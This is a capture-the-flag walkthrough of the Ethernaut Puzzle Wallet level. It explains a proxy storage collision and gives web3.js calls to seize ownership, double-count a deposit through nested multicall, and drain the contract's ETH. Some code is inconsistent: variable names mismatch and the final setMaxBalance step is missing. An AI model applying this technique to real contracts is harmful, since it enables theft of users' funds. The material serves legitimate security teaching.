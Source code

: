 # Ethernaut Level 25 (Puzzle Wallet) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 25. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

In a proxy setting, the storage used is of the proxy contract, while the logic  is of the logic contract. Delegate call is made from the proxy to the logic, which changes the storage of the proxy contract.

In this setting, it must be ensured that the proxy mirrors the logic contract's storage variables, otherwise there will be storage clashes. E.g., first variable in proxy is owner address, and first variable in logic is total balance. The value stored in the first variable will be the address.

In this case, the PuzzleProxy contract address is the user-facing address (i.e., the address for the implementation contract). It will change storage inside PuzzleWallet, since delegate call is made from the wallet to the proxy.

#### Solution

A huge mistake has been made in this proxy implementation. When using a Proxy contract, the variables of the implementation and proxy must mirror each other, otherwise there will be storage collision. For example, the first variable in Proxy and Implementation must be owner, admin; if its owner, balance, the balance variable will contain admin and not balance. We will exploit this mistake first.

Since the implementation's ABI will not show the proxy's functions, we have to construct a function call to the proxy's `proposeNewAdmin()` with the player address.

```
let callStr = web3.eth.abi.encodeFunctionCall({
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_newAdmin'
    }]
}, [player]);
```

We send this data string as data in a transaction to the contract.

`await web3.eth.sendTransaction({from: player, to: contract.address, data: callStr})`

Now we have the player's address in the first storage slot of the proxy contract storage, `pendingAdmin` (which is the storage for the implementation contract).
For the implementation, it is wrongly called `owner` and thus the player is `owner` in the eyes of the proxy.

Being the owner, we can now whitelist ourselves.

`await contract.addToWhitelist(player)`

The goal for us now is to store our address `player` in the second storage slot (storage\[1\]), since this is where the `admin` variable is, and which is mirrored by the `maxBalance` variable in the implementation. Thus, the second part of our hack begins.

First, we whitelist the contract. We can do this since we became the owner earlier in part 1 of the hack:

`await contract.addToWhitelist(contract.address)`

Then, we have the contract send all its ETH (0.01 ETH) to the player (or any other address). This is because the `setMaxBalance()` function requires the ETH balance of the contract to be 0 in. We need to use this function to set the maxBalance to the player address. Once again, this is because `maxBalance` is actually the `admin` variable since proxy storage is used. Now, how do we make contract balance 0?

For this, **we want to ensure that the player's contract balance and the contract's ETH balance are the same** Why? because the function which we will use to drain the contract's balance, `execute` check's the sender's contract balance is equal to the ETH value being transferred from the contract. Since we want to transfer all of ETH from the contract, we must have an internal contract balance equal to the amount the contract has.

Let's take a crack at this.

Set 0.001 ETH as the contract's internal balance (by calling deposit with a value of 0.001 ETH)

```
let callStr = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: [],
    payable: true,
    value: web3.utils.toWei("0.001", "ether")
}, []);
```

Then we convert the data hex string to a bytes value:

`callBytes = web3.utils.hexToBytes(callStr)`

And we call multicall, sending along 0.001 ETH

`await web3.eth.sendTransaction({from: player, to: contract.address, data: callMulti, value: '1000000000000000'})`

This increased players internal balance by 0.001 ETH and the contract's ETH balance by 0.001 ETH as well. Showing that deposit() received the 0.001 ETH so contract ETH bal increased. But it was the user's 0.001 ETH, not the contract's. Put simply, this transaction was just as if the player was depositing ETH.

This points to the fact that since a delegate call is made to deposit inside multicall, even though deposit is an external function, msg.sender is the user for it. Had there been a `.call` inside `multicall` instead of the `.delegatecall`, this would have done the trick since then the msg.sender for `deposit` would have been the contract itself.

Problem: If we try to increase our contract bal (i.e., balances\[msg.sender\]), the contract's balance also increases. This is because `deposit` increases the internal balance by the amount of msg.value sent in the call. This means that the contract balance will also increase since `deposit` is a payable function.

**How do deposit in such a way that the user's balance increases twice, while the contract's balance increases only once?**

Now: User contract bal: 0 , contract ETH bal: 0.001
Then: User contract bal: 0.002, contract ETH bal: 0.002

**We want to ensure that the player's contract balance and the contract's ETH balance are the same**

The way to circumvent this is to make two call inside `multicall(data1, data2)` with a value of `0.001`. Data1 will be a simple call to deposit:

```
let callStr = web3.eth.abi.encodeFunctionCall({
    name: 'deposit',
    type: 'function',
    inputs: [],
}, []);
```

In bytes

`data1Bytes = web3.utils.hexToBytes(callStr)`

So, while executing the delegatecall to data1, multicall will simply call deposit with a value of 0.001. Due to delegate call to deposit, the msg.sender will be the user and so the user's contract balance will increase by 0.001 to 0.001, and the contract's ETH balance will also increase by 0.001 to 0.002.

Data2 will call multicall(\[data1\]). So in this call, multicall will delegatecall itself, calling deposit. like: `multicall(multicall(deposit))` with a value of 0.001 ETH.

```
let data2 = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
    }],
}, [[data1]]);
```

In bytes,

`data2Bytes = web3.utils.hexToBytes(call2Str)`

The call to multicall with both above datas

```
let callMulticall = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
    }],
}, [[data1Bytes, data2Bytes]]);
```

Making the call

```
await web3.eth.sendTransaction({from: player, to: contract.address, data: callMulticall, value: '1000000000000000'})
```

**Multicall Execution**

data1: Multicall first calls deposit with 0.001 ETH, user contract bal inc by 0.001, contract bal also inc by 0.001 to 0.002 ETH. Deposit flag becomes true so cant call deposit again via multicall.

data2:Multiclall then delegatecalls itself calling deposit. This way, the selector is multicall's so the flag is bypassed and deposit is called with a value of 0.001 ETH. The caller is again msg.sender, the player, so our internal balance increases by 0.001 to 0.002. However, we only sent 0.001 ETH with was already transfered to the contract in the data1 call. As a resuly, contract balance stays the same (i.e., 0.002).

Finally, we now want to empty the contract's ETH balance. For this, we will use execute. Execute checks is msg.sender has enough internal balance, but makes the actual transfer from the ETH balance of the contract equivalent to the value provided.

`await contract.execute(player, toWei('0.002'), '0x');`

Now, we can set the `maxBalance` to the `player` address

`Number(fromWei(await web3.eth.getBalance(contract.address)))`

Congratulations; we won, son.

Now, what really cracked this last part?

Calling deposit twice in the same transaction. This way, we called deposit twice, but only one msg.value. So, while player balance increased twice, the contract balance increased only once. This made the balances equal and we were able to siphon out the funds via `execute`.